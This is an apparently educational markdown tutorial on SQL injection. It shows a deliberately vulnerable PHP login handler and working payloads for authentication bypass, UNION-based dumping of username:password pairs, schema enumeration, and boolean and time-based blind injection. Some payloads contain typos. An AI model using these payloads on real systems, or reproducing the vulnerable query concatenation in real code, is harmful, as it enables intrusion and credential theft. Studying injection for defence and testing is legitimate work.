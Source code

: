
# SQL Injection (SQLi)


## About

This is one of the most sever vulnerabilities that web applications can face. An attacker can abuse misconfigured forms to bypass authentication page or to query databases in order to exfiltrate their content, etc..

>Note that we will not discuss how SQL work, we highly recommend to study that first.

---
## How it works ?

When the website receives our filled parameters, either by `GET` or `POST` requests, it will put these variables in a pre-prepared *query statement*. Then, it will execute this statement in the database and retrieves the result back. Finally, it will do some action according to the received result.

Here is a vulnerable authentication handler code in PHP and MySQL database:
```PHP
<? php  
$servername = 'localhost';
$username = 'username';
$password = 'password';
$dbname = 'myDB';  
  
// Create connection  
$conn = new mysqli($servername, $username, $password, $dbname);

// Prpare the statment
$sql = 'SELECT id FROM users where username='.$_GET['username'].'and password='.$_GET['password'];

// Execute the statment
$result = $conn->query($sql);

// Successful query check
if($result === TRUE)
{
	echo 'You logged in !';
}
?>
```
The vulnerability occurs when there is not filtration on our input, and developer blindly trusts it. We can then simply bypass this check by making the statement returns `TRUE` . **Here are the steps to do that:**
1. End the string using single quote `'` . You can put any junk data before the `'` if you want. Example: `bb'`
2. Put a `TRUE` returned statement using `OR` logical operator. Example: `OR 1=1` .
3. Comment the rest of the query. Usually we don't know the database type used in the app, so keep trying all possible syntaxes until you get a hit. Example: `-- //`

The final payload for our case is :
```SQL
bb' OR 1=1 -- //
```

You can now bypass that app like this:
```
https://company.com/login.php?username=bb'%20OR%201=1%20--%20//&password=JUNK_JUNK
```

> Note the usage of `%20`, because we can't put any spaces in URLs.

In the background, the app will execute this statement:
```SQL
SELECT id FROM users where username='bb' OR 1=1 -- // and password='JUNK_JUNK'
```


---
## Functions and Keywords to know

##### `UNION`
- This is a keyword in SQL that lets you add another select statement in your payload.
- **Form:** It takes *n*<sup>th</sup> comma (`,`) separated values that is to be rendered to the screen. Where *n* is the number of columns.
- **Example:** `bb' UNION SELECT 1,2,3 ;--` .


##### `group_concat`
- This is a *function* in SQL used within the `SELECT` statement to return all of the rows into one string. It makes it easier to read.
- **Examples:**
```SQL
SELECT group_concat(username) FROM users;`
```

If we want to do multiple parameters like this:
```SQL
SELECT group_concat(username || ':' || password) FROM users;
```
We use the `||` symbol as a concatenation. We put any thing we want between the `username` and `password` fields within each record to separate them from each other. It will output something like this: `mike:pass123,john:pass456` .

Or, we can also use this syntax 
```SQL
SELECT GROUP_CONCAT(username,':',password SEPARATOR '<br>') FROM users
```
We've also added `;` to split the username and password from each other. Instead of being separated by a comma, we've chosen the HTML `<br>` tag that forces each result to be on a separate line to make for easier reading.


- **In payload form:**
	- At the ends .
```
bb" UNION SLECET 1, 2, GROUP_CONCAT(username,':',password SEPARATOR '<br>') FROM users -- //
```

	- At the middle .
```
bb" UNION SLECET 1, (SELECT GROUP_CONCAT(username || ':' || password) FROM users), 3, 4 -- //
```


##### `database()`
- This *function* returns the database name that this query has executed in.
- **Example:** `bb' UNION SELECT 1,database(),3 ;--` .

---
## Enumerating the Database

Each database has a built-in tables that contains all of the table_names and column_names in each table within a given database. It us called `information_schema`.

**Enumerate the tables**

```SQL
SELECT table_name, table_schema FROM information_schema.tables;
```
*table_schema* is the DB name that this table belongs to.


**Enumerate the columns**

```SQL
SELECT column_name FROM information_schema.columns WHERE table_name = 'users';
```
*We assume that we have a table named "users"*.


---
## SQL Injection Types

There are many types and forms of SQL injection. Each of them differ in the technique used to exploit them. Will present some of them here:
- **In-Band:** It is the easiest form to exploit, it renders the result of the query on the same page.

- **Blind - Boolean based:** This type doesn't show you the result of the query. It does some action based on the result, whether is *true* or *false*. We will abuse this by relying on the behavior performed by the server to know if our injected payload is correct or not.

For example, if we want to enumerate the database name, we will be bruteforcing it letter by letter until we get a hit, or no hit; which means that only discovered letters are the name of the database.
```
bb' UNION SELECT 1,2,3 where database() like 's%';--
```
*Note the usage of `like` statement to check which letter satisfice the condition*.

Another example is we might try to discover a table name in a given db.
```
bb' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'MY_DB' and table_name like 'a%';--
```


- **Blind - Time Based:** It is like the *Boolean-based*, there is no sign to tell us if our payload is correct. But what we can do is, sending the `SLEEP()` method in our payload. If the webpage is delayed some seconds, then our payload is correct, otherwise *false*.
```
bb' UNION SELECT SLEEP(5),2 where database() like 'u%';--
```

---
## Notes

- The input might be expected to be an integer sometimes, so no need to put the single-quote `'` at the beginning of the payload, because there is no string to end.
- There are many filtration happens usually on special characters, review online cheatsheets to bypass it.
- Try always every field to detect if there is a SQLi vulnerability. like using the signal quote `'`.
- Try to know what DB type are you dealing with, because each type has it own functions.
- You need to always try and try you payloads. SQL Injection exploitation process evolves many trial and errors.